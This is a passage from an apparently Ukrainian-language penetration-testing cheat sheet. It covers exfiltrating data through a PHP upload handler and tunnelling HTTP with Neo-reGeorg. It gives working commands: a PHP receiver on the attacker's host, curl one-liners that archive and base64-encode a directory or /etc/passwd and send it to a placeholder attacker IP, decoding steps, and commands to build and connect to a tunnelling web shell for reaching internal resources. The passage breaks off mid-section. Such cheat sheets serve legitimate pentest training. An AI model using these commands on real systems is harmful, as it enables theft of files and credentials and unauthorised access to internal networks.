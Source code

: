 
## 🌃 10. Ексфільтрація через file_handler.php

### 🔸 На сервері (перехоплення):
```bash
php -S <IP_attacker>:8080
```
В поточній директорії повинен бути файл file_handler.php

```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

### 🔸 На таргеті:
- папку із вмістом
```bash
curl --data "file=$(tar zcf - siem | base64)" http://<IP_attacker>:8080/file_handler.php
```
- конкретний файл
```bash
curl --data "file=$(tar zcf - -C /etc passwd | base64)" http://<IP_attacker>:8080/file_handler.php
```

### 🔸 Нормалізуємо base64 шляхом видалення '+' і розпаковуємо архів
```bash
sudo sed -i 's/ /+/g' /tmp/http.bs64 
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```
## 📡 11. HTTP Tunneling

Якщо є змога завантажувати файл, тоді можна використати [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) для тунелювання

### 🔸 Запускаємо 
```
python3 neoreg.py generate -k q1w2e3r4    
```
Параметр -k задає ключ, ідентифікатор профілю. 
У поточній директорії буде створено теку neoreg_servers/ яка міститиме файли для тунелювання різних форматів.

### 🔸 Підключаємось до завантаженого файлу (створюємо тунель)

```
python3 neoreg.py -k q1w2e3r4 -u http://192.168.1.1/uploader/files/tunnel.php
```
### 🔸 Переглядаємо внутрішні ресурси
